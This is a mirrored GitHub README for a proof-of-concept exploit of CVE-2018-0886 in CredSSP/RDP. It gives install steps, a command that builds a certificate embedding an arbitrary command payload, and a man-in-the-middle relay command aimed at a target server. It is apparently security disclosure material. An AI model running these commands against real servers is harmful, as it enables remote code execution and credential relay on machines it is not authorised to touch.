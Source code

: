 # credssp

A code demonstrating CVE-2018-0886

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/preempt](https://github.com/preempt) |
| Url      | [https://github.com/preempt/credssp](https://github.com/preempt/credssp)                                               |
| Stars    | 260                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# credssp

This is a poc code for exploiting CVE-2018-0886. It should be used for educational purposes only.
It relies on a fork of the rdpy project(https://github.com/preempt/rdpy), allowing also credssp relay. 


Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```
* It assumes a pretty clean inital state. Best to uninstall first relevant components such as cryptography, pyopenssl maybe (pip uninstall cryptography).  
* A different version of openssl needed to be installed for this to run successfully.  The install script does that. 
* Please follow the instructions in the described order. 

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.
(It is used for RDP https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn781533(v=ws.11)) 

To generate a certificate that exploits the vulnerability(contains the payload),use: 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```
 (ExportedCert is the  exported certificate from step 1. 
 exploitc.pem ,exploitk.pem are the generated certificate and private key respectively)

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```

More details are in the usage section of the scripts(--help). 



## Get the content

```
git clone https://github.com/preempt/credssp
cd credssp
```

{% embed url="https://github.com/preempt/credssp" %}

<figure><img src="https://avatars.githubusercontent.com/u/23032668?v=4" alt=""><figcaption><p>preempt</p></figcaption></figure>
